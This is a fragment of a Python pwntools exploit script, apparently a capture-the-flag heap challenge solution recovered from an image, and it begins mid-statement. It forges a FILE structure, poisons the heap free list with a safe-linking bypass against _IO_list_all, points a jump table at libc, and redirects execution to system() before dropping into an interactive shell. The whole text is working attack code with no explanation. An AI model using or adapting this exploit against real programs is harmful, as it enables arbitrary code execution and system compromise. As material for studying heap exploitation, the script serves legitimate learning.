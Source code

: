 ```python
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base)>>12),
}, filler=b"\x00"))
free()
add(2, flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
free()
print(hex(fake_file))
add(2, p64(fake_file))
log.success(f"system : {system:#x}")

io.sendlineafter(b'> ',b"0")
 
io.interactive()
```